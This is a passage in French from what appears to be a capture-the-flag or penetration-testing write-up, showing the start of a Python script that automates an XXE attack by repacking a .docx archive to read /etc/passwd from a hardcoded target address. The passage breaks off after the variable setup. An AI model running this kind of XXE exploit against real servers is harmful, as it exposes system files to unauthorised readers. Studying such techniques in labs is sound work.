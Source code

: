 ![Vuln](images/passwd1.png)

Nous pouvons modifier l'archive manuellement à chaque fois que l'on veut tester une cible pour le path **XXE** mais c'est contraignant.

- Automatisation de ce processus grâce à un script python :

```python
import zipfile
import os
import shutil
import requests

docx_file = "passwd.docx" # On part de l'archive que nous avons utilisé pour récupérer passwd
xxe_target = "/etc/passwd"  # Path pour la "cible" xxe
base_url = "http://163.172.67.183"
upload_url = f"{base_url}/read" 

zip_file = docx_file.replace(".docx", ".zip")
extracted_dir = "unzipped_payload"
modified_docx = "xxe_modified.docx"
```